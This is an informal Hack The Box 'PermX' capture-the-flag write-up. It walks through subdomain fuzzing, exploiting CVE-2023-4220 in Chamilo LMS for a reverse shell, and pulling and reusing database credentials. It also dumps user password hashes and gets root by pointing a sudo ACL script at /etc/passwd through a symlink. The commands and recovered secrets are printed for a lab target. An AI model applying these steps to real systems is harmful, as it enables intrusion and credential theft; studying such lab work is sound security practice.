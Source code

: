 

Enumuration:

Nmap scan

skid@skidlord:~/Downloads$ nmap -sC -sV 10.10.11.23
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-11 00:19 EDT
Nmap scan report for permx.htb (10.10.11.23)
Host is up (0.052s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e25c5d8c473ed872f7b4800349866def (ECDSA)
|_  256 1f41028e6b17189ca0ac5423e9713017 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: eLEARNING
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.10 seconds





People in company from the about section

Noah 

Elsie

Ralph

Mia


skid@skidlord:~/pen$ ffuf -w SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.permx.htb" -u http://permx.htb/ -fc 302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb/
 :: Wordlist         : FUZZ: SecLists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response status: 302
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353]
www                     [Status: 200, Size: 36178, Words: 12829, Lines: 587]
:: Progress: [151265/151265] :: Job [1/1] :: 835 req/sec :: Duration: [0:03:01] :: Errors: 0 ::


I scan it with nuclei and find this 
[CVE-2023-4220] [http] [medium] http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/HgqByocmY8.txt
with an md5 hash that i crack 

|                                  |     |      |
| -------------------------------- | --- | ---- |
| c35bc9eaa4a930e006ab98bf3ef90408 | md5 | 8227 |


Exploit:

I find a cve exploit for this
https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit

and get a reverse shell really easily as the www-data user. 


i found two sql files inside of so i started a python server and then downloaded them to my machine 
python3 -m http.server 8080

`wget http://10.10.11.23:8080/database.lib.php`
wget http://10.10.11.23:8080/database.mysqli.lib.php

but this was just config files for the database and not the actual db itself so i looked for configuration files on chamilo with
www-data@permx:/var/www/chamilo$ find /var/www/chamilo/ -type f -name "*config*.php"



i found 
/var/www/chamilo/app/config/configuration.php


- **Database Host:** `localhost`
- **Database Port:** `3306`
- **Database User:** `chamilo`
- **Database Password:** `03F6lY3uXAP2bkW8`
so i connected to the database
<n/install$ mysql -u chamilo -p -h localhost -P 3306
Enter password: 03F6lY3uXAP2bkW8

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 596
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 

so i dumped the database 

ariaDB [(none)]> SHOW DATABASES;
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| chamilo            |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> exit; 
exit;
Bye
www-data@permx:/var/www/chamilo/main/install$ mysqldump -u chamilo -p -h localhost chamilo > chamilo_backup.sql
<hamilo -p -h localhost chamilo > chamilo_backup.sql
Enter password: 03F6lY3uXAP2bkW8



then download it to my machine 

MariaDB [chamilo_local]> SELECT username, password, email FROM user;
+----------+--------------------------------------------------------------+-----------------------+
| username | password                                                     | email                 |
+----------+--------------------------------------------------------------+-----------------------+
| admin    | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra | admin@permx.htb       |
| anon     | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS | anonymous@example.com |
+----------+--------------------------------------------------------------+-----------------------+
2 rows in set (0.000 sec)

MariaDB [chamilo_local]> 

is what i got from the database. Ill try to crack anon


I also on the rev shell check the /etc/passwd file and see there is a user 
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash

skid@skidlord:~/pen$ hashcat --show -m 3200 bcrypt_hash.txt rockyou.txt
$2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS:anon

this displays that the hash password is anon, but actually this doesnt work to ssh into mtz so I try the SQL password 03F6lY3uXAP2bkW8 which works.



### ROOT PRIVILEGE ESCALATION:

1. **Check `sudo` Privileges:** I began by running the `sudo -l` command to view which commands the `mtz` user is allowed to run with root privileges. The output revealed that the user can execute `/opt/acl.sh` without a password as root:



2. **Understanding `/opt/acl.sh`:** After reviewing the script, I noted that it allows setting Access Control List (ACL) permissions on files. It accepts three parameters: a username, the permission type (read/write), and a target file. Importantly, the script checks if the target file is located in `/home/mtz/` and prevents directory traversal attacks.

Here is a key part of the script:

```
if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi
```


3. **Create a Backup of `/etc/passwd`:** To safely modify the system password file, I first created a backup of `/etc/passwd`:



4. **Create a Symbolic Link to `/etc/passwd`:** Next, I created a symbolic link from a file in my home directory (`/home/mtz/passwd_symlink`) to the real `/etc/passwd` file:




5. **Grant Write Permissions on the Symlink:** Using the `acl.sh` script, I granted write permissions to myself on the symlinked `/etc/passwd` file:


6. **Generate a Password Hash for a New Root User:** I used the following OpenSSL command to generate a password hash for the new root user:


7. **Edit `/etc/passwd` and Add a New Root User:** I edited the `/home/mtz/passwd_backup` file and added the following line for the new user with the root privilege:



8. **Overwrite `/etc/passwd` with the Modified Backup:** Finally, I used the symlink to copy the modified `passwd_backup` file (with the new root user) back to the actual `/etc/passwd`:


9. **Switch to the New Root User:** Once the password file was updated, I switched to the new `exploituser`:




By following this process, I successfully created a new root user and obtained root access.
